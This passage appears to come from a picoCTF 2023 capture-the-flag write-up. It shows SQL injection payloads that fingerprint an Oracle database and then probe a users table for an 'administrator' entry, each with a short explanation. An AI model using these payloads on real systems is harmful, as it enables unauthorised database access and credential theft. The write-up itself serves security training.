 - Server can be confirmed to be using **Oracle Database**

**Query Injected:**


```sql
'|| (SELECT * FROM dual) ||'
```

<br/>

<br/>

![c54b1050_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/b5530944-e8cd-4ac6-b6be-44276d6d0a62)

**Query Injected:**


```sql
'|| (SELECT * FROM nothing) ||'
```

- Confirms that data needs to be extracted from a table that exists

- This concludes that is an Oracle Database

<br/>

<br/>

![0bec4d7e_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/97aeb6ea-eaa7-490b-8707-986056cfdc2c)

**Query:**


```sql
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

- Selecting a single entry from the users table

- **ROWNUM = 1** ensures that there is only one row number

![5181bb70_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/ae09521b-c68f-4353-a40a-8fd1a55984a8)

<br/>

<br/>

**Query Injected:**


```sql
'||(SELECT '' FROM users WHERE username='administrator')||'
```

- Selects entries within the users table where the username = ‘administrator’

<br/>

<br/>

![09f8995f_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/3dcb9794-2c01-4bd1-987a-a959a63602db)
